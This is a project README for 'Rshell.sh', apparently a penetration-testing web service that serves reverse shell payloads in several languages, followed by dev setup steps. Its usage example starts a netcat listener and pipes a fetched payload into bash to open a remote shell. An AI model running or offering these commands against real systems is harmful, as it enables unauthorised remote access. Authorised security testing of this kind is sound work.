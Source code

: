 # Rshell.sh Reverse Shell Payloads aaS

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make easy to quickly
pull down reverse shell payloads from the *cloud* ☁️  to your terminal using
`curl` or `wget`.

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query `[rshell.sh](https://rshell.sh)` to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

## Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

See the project [help page](https://rshell.sh/help) for more information.

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone github.com:BlueSquare23/Rshell.sh.git
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv				# Virtual Env Optional
source venv/bin/activate	# Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

